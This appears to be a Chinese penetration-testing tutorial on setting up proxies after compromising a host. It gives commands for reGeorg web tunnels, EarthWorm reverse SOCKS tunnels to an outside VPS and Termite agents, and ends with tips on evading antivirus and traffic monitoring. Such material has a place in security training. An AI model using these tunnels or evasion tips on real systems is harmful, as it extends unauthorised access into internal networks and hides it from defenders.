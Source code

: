 # 内网后渗透篇：代理

前言:当我们在外网拿到一个权限的时候，为了能够更好地进行入侵。拥有一个稳定高效的代理就显得至关重要了。

1.代理种类

代理一般分为正向代理和反向代理两个种类。

**正向代理：**已控服务器开个端口，我们通过这个端口从而形成一个正向的隧道。但是入口一般处于DMZ区域一般都有防火墙，新开的端口普遍我们访问不到。

![](images/2020_05_28/Intranet/15906544998393.jpg)

**反向代理：**VPS监听一个端口，已控服务器来连接VPS，从而形成一个隧道。但是有的时候内网机子不连外网，所以无法回弹tunnel。

![](images/2020_05_28/Intranet/15906545138699.jpg)


### 2.代理工具

**2.1.reGeorg **

地址：https://github.com/sensepost/reGeorg

前提：必须有web，且容器支持jsp,php,aspx,ashx。比较慢且会产生较多的web日志。

reGeorg属于正向代理，直接上传相应的webtunnl至我们可访问web路径，然后执行python文件,当执行结果为all seems fine的时候代表成功。这时候我们直接把流量指向本地端口即可使用代理。


```bash
python reGeorgSocksProxy.py -p lport -u http://url/tunnel.xxx
```

![](images/2020_05_28/Intranet/15906545394506.jpg)


**2.2EarthWorm**

地址：http://rootkiter.com/EarthWorm/

EW作为一个综合工具，不仅支持正向/反向代理和端口转发，还兼容多个平台，实乃代理神器。

正向 SOCKS v5 服务器:


```bash
  $ ./ew -s ssocksd -l 1080
```

反弹 SOCKS v5 服务器:

这个操作具体分两步：

a) 先在一台具有公网 ip 的主机A上运行以下命令：


```bash
 $ ./ew -s rcsocks -l 1080 -e 8888 
```

 b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
 
 
```bash
 $ ./ew -s rssocks -d 1.1.1.1 -e 8888
```

当代理成功的时候回显示OK。

**2.3Termite**

地址：http://rootkiter.com/Termite/README.txt

这个工具跟2.2的ew的作者是同一个人（rootkiter）,同样直接多个操作系统，不同于ew，Termite多了一个管理端，可以管理多个代理。说实话这玩意写的非常绕，不建议小白使用。想使用的多读几遍readme.txt。

* ant为被控端
* admin为控制端


```bash
vps ./agent_Linux32 -l 1235 &
被控 ./agent_Linux32 -c 192.168.3.30 -p 1235 &
vps ./admin_Linux32 -c 192.168.3.30 -p 8888
```

2.4其他

能够实现代理的工具非常多，如Cobalt Strike，msf,冰蝎等，在某些情况下还需要自己写或者配合系统命令实现代理。

写在最后：

现在内网都有流控了，再加上杀软。文中提的代理工具普遍都会被杀，为了更加隐蔽可以尝试流量伪装成正常的通信协议（QQ语音，视频会议），并且可以朝着非监控区域尝试（设备代理，路由，防火墙，硬件设备等）。